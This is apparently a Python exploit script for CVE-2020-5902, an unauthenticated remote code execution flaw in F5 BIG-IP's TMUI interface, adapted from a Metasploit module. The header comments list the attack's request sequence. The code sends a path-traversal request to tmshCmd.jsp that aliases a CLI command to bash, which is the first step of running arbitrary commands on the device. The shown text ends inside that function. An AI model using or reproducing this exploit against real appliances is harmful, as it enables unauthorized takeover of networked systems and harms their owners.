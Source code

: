     # tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
    # fileSave.jsp?fileName=/tmp/cmd&content=id
    # tmshCmd.jsp?command=list+/tmp/cmd
    # tmshCmd.jsp?command=delete+cli+alias+private+list

    banner = r'''
     _______  _______    ______  _________ _______   _________ _______    _______  _______  _______ 
    (  ____ \(  ____ \  (  ___ \ \__   __/(  ____ \  \__   __/(  ____ )  (  ____ )(  ____ \(  ____     | (    \/| (    \/  | (   ) )   ) (   | (    \/     ) (   | (    )|  | (    )|| (    \/| (    \/
    | (__    | (____    | (__/ /    | |   | |           | |   | (____)|  | (____)|| |      | (__    
    |  __)   (_____ \   |  __ (     | |   | | ____      | |   |  _____)  |     __)| |      |  __)   
    | (            ) )  | (  \ \    | |   | | \_  )     | |   | (        | (\ (   | |      | (      
    | )      /\____) )  | )___) )___) (___| (___) |  ___) (___| )        | ) \ \__| (____/\| (____/    |/       \______/   |/ \___/ \_______/(_______)  \_______/|/         |/   \__/(_______/(_______/
                                                                                                    
                            CVE-2020-5902 UnAuth RCE Vuln
                                Python By Jas502n
    From: https://github.com/rapid7/metasploit-framework/blob/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb
    ____________________________________________________________________________________________________________________________________________________
    '''

    def tmshCmd_exit(url,file,cmd):
        tmshCmd_url = url + "/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash"
        proxies = {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}
        r = requests.get(tmshCmd_url,verify=False,allow_redirects=False)
        # r = requests.get(tmshCmd_url,verify=False,allow_redirects=False,proxies=proxies)

        response_str = json.dumps(r.headers.__dict__['_store'])
        # print type(response_str)
        # print response_str
        if r.status_code == 200 and 'tmui' in response_str:
            # print tmshCmd_url
            print "[+] tmshCmd.jsp Exit!"
            print "[+] create cli alias private list command bash \n"
            # cmd = 'whoami'
            upload_exit(url,file,cmd)
